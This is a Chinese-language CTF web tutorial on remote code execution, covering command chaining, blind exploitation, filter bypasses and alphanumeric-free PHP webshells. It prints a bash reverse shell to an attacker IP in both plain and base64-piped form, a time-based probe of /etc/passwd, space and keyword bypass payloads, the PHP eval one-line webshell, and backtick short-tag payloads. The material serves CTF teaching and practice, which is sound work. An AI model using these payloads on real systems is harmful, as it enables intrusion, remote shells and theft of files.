









# CTF Web赛事基础：P98：远程代码执行与联合执行 🚀

在本节课中，我们将要学习CTF Web方向中一个重要的漏洞类型：远程代码执行。我们将从基础的命令联合执行开始，逐步深入到命令执行绕过、无回显利用以及PHP代码执行等核心内容。


## 命令联合执行 🔗

上一节我们介绍了基本的命令执行，本节中我们来看看如何将多条命令组合在一起执行，即命令联合执行。

以下是几种常见的命令联合执行方式：

*   **分号 `;`**：这是最常用的方式，表示无条件地顺序执行命令。无论前一个命令是否成功，都不会影响后一个命令的执行。
    *   示例：`ping 127.0.0.1; ls -l`
*   **逻辑与 `&&`**：只有当前一个命令执行成功（返回值为0）时，才会执行后一个命令。
    *   示例：`mkdir test && cd test`
*   **逻辑或 `||`**：只有当前一个命令执行失败（返回值非0）时，才会执行后一个命令。
    *   示例：`cat non_exist_file || echo “File not found”`
*   **管道符 `|`**：将前一个命令的输出作为后一个命令的输入。
    *   示例：`echo “abc” | md5sum`
*   **换行符 `\n`**：在Shell中直接换行也相当于执行多条命令，但并非所有编程语言环境都支持。


除了联合执行，还有**内联执行**，我们稍后会介绍。


## 无回显命令执行与反弹Shell 🐚





有时，目标虽然能执行命令，但不会将结果回显给我们，这就是无回显场景。解决无回显问题主要有两种思路：**请求带出**和**延时盲注**。

**请求带出**是指让目标服务器主动将命令执行结果发送到我们控制的服务器上。一种典型的方式是使用**反弹Shell**。

反弹Shell通常在目标服务器无法主动向外连接时使用。其核心是让目标服务器执行一个命令，主动连接到攻击者的监听端口，从而建立一个交互式Shell。


以下是反弹Shell的一个基本示例，假设攻击者IP为`10.0.0.1`，监听端口为`12345`：
```bash
# 攻击者监听端口
nc -lvnp 12345

# 目标服务器执行（方法之一）
bash -c ‘bash -i >& /dev/tcp/10.0.0.1/12345 0>&1‘
```
如果直接执行失败，可以尝试将命令写入文件后通过`curl`下载执行，或进行Base64编码后解码执行：
```bash
# Base64编码上述命令
echo ‘bash -c “bash -i >& /dev/tcp/10.0.0.1/12345 0>&1”‘ | base64


# 目标服务器执行解码后的命令
echo ‘YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS8xMjM0NSAwPiYxIicK‘ | base64 -d | bash
```


**延时盲注**则是通过命令执行的时间差来判断条件是否成立，类似于SQL时间盲注。例如，判断`/etc/passwd`文件第一个字符是否为`r`：
```bash
test $(head -c 1 /etc/passwd) = “r” && sleep 5
```
如果命令执行后延迟了5秒，说明第一个字符是`r`。

## 命令执行绕过技巧 🛡️➡️⚔️

实际CTF题目中，通常会过滤关键字符。下面我们学习如何绕过这些过滤。

### 空格过滤绕过

当空格被过滤时，可以用以下字符替代：


*   **`${IFS}`**：`IFS`是Shell的内部字段分隔符，默认为空格。
    *   示例：`cat${IFS}flag.php`
*   **`$IFS$9`**：`$9`是第9个参数，通常为空，组合起来起到分隔作用。
*   **重定向符`<>`**：可以利用重定向。
    *   示例：`cat<flag.php`
*   **制表符`%09`**（URL编码）。
*   **花括号`{cmd,args}`**：在某些上下文中能起到分隔作用。

### 关键字过滤绕过

当`cat`、`flag`等关键字被过滤时，可以尝试以下方法：

*   **反斜杠转义**：插入反斜杠，可能绕过简单的字符串匹配。
    *   示例：`ca\t fl\ag.php`
*   **字符串拼接**：
    *   利用变量：`a=fl;b=ag; cat $a$b.php`
    *   利用Shell特性：`cat fl’‘ag.php`（单引号拼接）
*   **编码绕过**：
    *   Base64：`echo “ZmxhZy5waHA=” | base64 -d | xargs cat`
    *   Hex：`echo “666c61672e706870” | xxd -r -p | xargs cat`
*   **通配符匹配**：
    *   `*` 匹配任意长度字符：`cat /fla*`
    *   `?` 匹配单个字符：`cat /fla?.php`
    *   `[a-z]` 匹配范围：`cat /fla[a-g]`
*   **内联执行**：将子命令的输出作为参数。
    *   使用反引号 **``**：`cat `ls` `（会尝试`cat`当前目录所有文件）
    *   使用`$()`：`cat $(ls)`

**实战练习**：可以尝试完成`ACTF2020`的`exec`题目或`[GYCTF2019]Ping Ping Ping`题目，综合运用上述绕过技巧。


## PHP代码执行与绕过 🐘


代码执行漏洞允许攻击者执行后端代码（如PHP）。最常见的是`eval()`函数，它将其字符串参数当作PHP代码执行。这就是“一句话木马”的原理：`<?php eval($_POST[‘cmd’]);?>`。





题目常对输入的代码进行限制。例如，过滤所有字母和数字。此时需要利用PHP特性构造出所需字符串。



### 无字母数字WebShell构造

核心思路：利用非字母数字的字符（如运算符、位运算符）通过运算生成我们需要的字符串。




**1. 利用位运算符（异或`^`、取反`~`）**

在PHP中，两个非字母数字的字符进行异或运算，可能产生字母数字。我们可以提前编写脚本生成payload。
```php
// 例如，生成字符串 “phpinfo” 的异或形式
// 脚本会输出类似：($_=“某串字符”^“另一串字符”)();
// 执行后，变量 $_ 的值就是 “phpinfo”，加上括号即可调用函数：$_();
```
**2. 利用PHP短标签和反引号执行命令**


当限制极为严格（禁用字母、数字、括号、美元符号等）且长度有限时，可以考虑这种方法。
```php
<?= `ls /`;?>
```
*   `<?=` 是PHP短标签，相当于 `<?php echo ... ?>`。
*   **`` ` ``** 反引号在PHP中执行系统命令。
*   因此，上述代码会输出执行`ls /`的结果。





一个经典的极限绕过题目，可能只允许如下简短payload：
```php
?><?=`cat *`;
```
*   `?>` 用于闭合题目中可能存在的PHP标签。
*   `<?=` 开启短标签并准备回显。
*   **`` `cat *` ``** 执行命令，使用通配符`*`匹配`flag`文件。


## 总结 📚




本节课我们一起深入学习了CTF Web中的远程代码执行漏洞。

1.  **命令联合执行**：我们掌握了使用`;`、`&&`、`||`、`|`等方式组合多条命令。
2.  **无回显利用**：学习了通过**反弹Shell**和**延时盲注**来解决命令执行无回显的问题。
3.  **绕过过滤**：系统性地学习了绕过**空格过滤**和**关键字过滤**的各种技巧，包括使用`${IFS}`、拼接、编码、通配符和内联执行。
4.  **PHP代码执行**：理解了`eval()`函数的危险性，并学习了在**无字母数字**的苛刻条件下，如何利用**位运算异或/取反**以及**PHP短标签配合反引号**来构造可执行代码。


这些知识是CTF Web方向中命令注入和代码执行类题目的基础。从简单的联合执行到复杂的过滤绕过，理解这些原理并灵活运用是解题的关键。建议在BUU、攻防世界等平台寻找相关题目进行练习，以巩固所学内容。